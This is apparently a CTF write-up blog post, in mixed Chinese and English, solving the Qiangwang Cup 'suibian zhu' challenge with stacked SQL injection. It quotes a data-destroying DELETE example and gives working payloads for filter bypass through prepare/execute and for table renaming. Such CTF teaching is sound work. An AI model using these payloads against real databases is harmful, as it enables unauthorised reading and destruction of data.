

最近觉得自己还是要搞定强网杯的随便注这道题（太难了…数字经济上还有魔改题）
前提
知道有个东西叫 SQL的堆叠注入
过程
好的，开始进入题目
首先输入
1；
//看看有啥
正常骚一波
输入
1‘
有报错回显

接着
1’ order by 1#
//来进行尝试用order by 测试得到列数是2，为3时报错
然后尝试用union联合注入
1' union select 1,2 #
//回显了过滤规则
然后发现有很多东西都被过滤了…那该怎么办呢！
新的东西，堆叠注入！（在sql-lab的38关也有相关的习题（早就忘光了—后悔没有写完博客））
那么就一起来讲讲堆叠！原网址：http://www.sqlinjection.net/stacked-queries/
堆叠注入
What is stacked-queries?
Stacked-queries provide a lot of control to the attacker which can by using terminate the original query and adding a new one, which will be possible to modify data and call stored procedures.
Principle
In SQL, a semicolon (分号) indicates that the end of a statement has been reached and what follows is a new one.
This allows executing multiple statements in the same call to the database sever.
Contrary to UNION(联合查询) attacks which are imited to SELECT statements, stacked queries can be used to any SQL statement or procedure. A classic attack using this technique could look like the following.
For example:
malicious user(or attacker) input
1;DELETE FROM productsThe sever terminal will get the sentence is
Select * from products where productid = 1;DELETE FROM productsWhen the query is executed, a product is returned by the first statement and all products are deleted by the second.
Stacked Queries Limitations
You should know that the query stacking doesn’t work in every situation, because it could be possible that the API and/or database don’t support this functionally. Insufficient(不足) rights could also explain why the attacker is unable to modify data or call some procedures.
Chinese translation by another author
Maybe there will be some mistakes by the versions that we need to discuss.
However, in mysql/php’s environment that can support the stcked queries.
Even though we mentioned earlier that stacked queries can add any SQL statement, this injection technique is frequently limited when it comes to adding SELECTs. Both statements will be executed but software code is usually designed to handle the results returned by only one query. Consequently, the injected SELECT query will often generate an error or its results will simply be ignored. For this reason it is recommended to use UNION attacks when trying to extract data.
One last thing needs to be mentionned: to inject a valid SQL segment, the attacker will need to know some basic information such as table names, column names, etc. For more information refer to the section dedicated to information gathering.
Go back to the quiz
Method 1
First we should know the flag in which tables.
?inject=1';show tables;#
?inject=1';show columns from `1919810931114514`;#However we could not use SELECT .etc to search.
Now, we can use mysql’s preparing sentences.
1.PREPARE stmt from ‘your sql’s sentences;
2.EXECUTE stmt (if your sql has parameter(参数), USING xxx,xxx); // USING in there is connection variable（会话变量）
3.DEALLOCATE PREPARE stmt;
After we find that behind using the “prepare”‘s sql sentences are a string and then Regular matching（正则匹配） have no meaning to these strings, we can using this method to create a sentence which we can use.
Use concat(“sel”,”ect”) and then use setting the variable to save the character set @a=
Now, let us have try.
?inject=1';set @a=concat("sel","ect flag from `1919810931114514`");prepare hello from @a;execute hello;# Then the system feed back that

Thus, we failed, but we can know that we can choose another method–change the ‘a’ to ‘A’.
?inject=1';SET @a=concat("sel","ect flag from`1919810931114514`");prepare hello from @a;execute hello;#Method 2
Change the table name;
Return to the two tables’ picture,
Then, check both of their column.
?inject=1';show columns from `1919810931114514`;#?inject=1';show columns from `words`;#We can guess that we search the data is in the table ‘words’.
Then we can change the table named ‘1919810931114514’ name to ‘words’.
Now we can have a try
- Change table ‘words’ name to table ‘123456789’
- Change table ‘1919810931114514’ name to table ‘words’
- Change column’s name ->change ‘flag’ to ‘id’
?inject=1' or 1=1;rename tables `words` to `test`;rename tables `1919810931114514`to `words`;alter table `words` change `flag` `id` varchar(100);If you want to view whether it have been changed, you can add sentences like”show tables;show columns”
For example:
?inject=1’ or 1=1;rename tables
wordstotest;rename tables1919810931114514towords;show tables;show columns from words;alter tablewordschangeflagidvarchar(100);show tables;show columns from words;
The end
Helped by his blog